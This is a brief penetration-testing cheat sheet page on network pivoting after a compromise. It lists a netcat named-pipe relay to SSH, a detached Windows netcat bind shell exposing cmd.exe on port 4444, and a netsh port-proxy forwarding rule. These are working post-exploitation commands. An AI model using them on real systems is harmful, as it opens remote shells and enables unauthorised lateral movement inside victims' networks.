 ```yaml
---
title: Pivot
category: Post-Exploitation
order: 97
---
```


>**Metasploit and Meterpreter**

> **Netcat Relay** 

Relay | <code> Mknod backpipe p <br> nc -l -p [allowed_inbound_port] 0<backpipe | nc 127.0.0.1 22 1>backpipe <br> ssh login@[target] -p [allowed_inbound_port] </code>
Remote Netcat (detached) | <code> nc.exe -d -l -p 4444 -e cmd.exe </code>

> **netsh pivot** 

netsh interface portproxy add v4tov4 listenport=<LPORT> listenaddress=0.0.0.0 connectport=<RPORT> connectaddress=<RHOST>

> **useful resources** 

http://pentestmonkey.net/cheat-sheet/ssh-cheat-sheet

